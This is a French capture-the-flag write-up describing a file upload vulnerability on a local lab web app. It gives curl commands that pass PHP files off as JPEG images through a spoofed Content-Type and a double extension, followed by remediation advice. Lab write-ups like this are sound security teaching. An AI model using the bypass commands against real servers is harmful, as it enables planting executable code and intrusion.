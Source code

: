 ### Comment la faille a été trouvée:

1. Depuis la page d'accueil on nous propose d'ajouter une image (voir [img 1](./img1.png)).
Cela nous donne la possibilité d'envoyer du contenu au serveur (voir [img 2](./img2.png)).
Cela pourrait représenter un danger si il est mal configuré => comme envoyer du code malveillant que le serveur ne bloquera pas.

2. Il faut donc qu'il vérifie que on envoie de vraies images, et empêcher l'exécution de code à travers ce moyen.

### Comment la faille a été exploitée:

3. Essayons d'abord d'envoyer une simple image (`.png`): Le serveur refuse le format (`.png`). (voir [img 3](./img3.png)).
On essaye ensuite avec un (`.jpg`) (voir [img 4](./img4.png)): ca fonctionne !

4. Via une requête http il est possible d'outrepasser l'upload simple d'un fichier côté frontend.

5. Pour cela on va utiliser curl déjà disponible sous windows. On va d'abord faire le test avec une img simple type .jpg via cette commande:
```sh
curl -X POST `
  -H "Content-Type: multipart/form-data" `
  -F "uploaded=@test.jpg;type=image/jpeg" `
  -F "Upload=Upload" `
  http://127.0.0.1:8080/?page=upload
```
On a une réponse côté serveur : `<pre>/tmp/test.jpg succesfully uploaded.</pre>`

6. Maintenant on va tenter la même chose mais avec un fichier déguisé => on injecte du code php que l'on fait passer pour une image.

Je crée un fichier php `test.php` que je renomme ensuite `test.php.jpg`

Et je l'envoie sous requête http via curl:
```sh
curl.exe -X POST -H "Content-Type: multipart/form-data" -F "uploaded=@test.php.jpg;type=image/jpeg" -F "Upload=Upload" http://127.0.0.1:8080/?page=upload
```
Le fichier est uploadé avec succès: `<pre>/tmp/test.php.jpg succesfully uploaded.</pre>`

On refait enfin la même chose sauf que là on envoie un fichier `.php` tout court, en le faisant passer pour un jpeg:
```sh
curl.exe -X POST -H "Content-Type: multipart/form-data" -F "uploaded=@test.php;type=image/jpeg" -F "Upload=Upload" http://127.0.0.1:8080/?page=upload
```

7. Et on obtient le flag dans la réponse à notre requête ! (voir [flag_dans_reponse](./flag_dans_reponse.png))

### Comment la faille peut être corrigée:

- Ne jamais se fier uniquement à l’extension du fichier (ex: `.jpg`) pour valider son type.

- Ne jamais se fier au Content-Type fourni par l’utilisateur (ex: `image/jpeg`).

- Utiliser `getimagesize()` ou `exif_imagetype()` pour valider une vraie image.

- Désactiver l'exécution de scripts dans le dossier d'upload (ex: `.htaccess` → `php_flag engine off`).

- Refuser les extensions multiples (`.php.jpg`, `.jpg.php`, `.php.jpg.jpg...`).
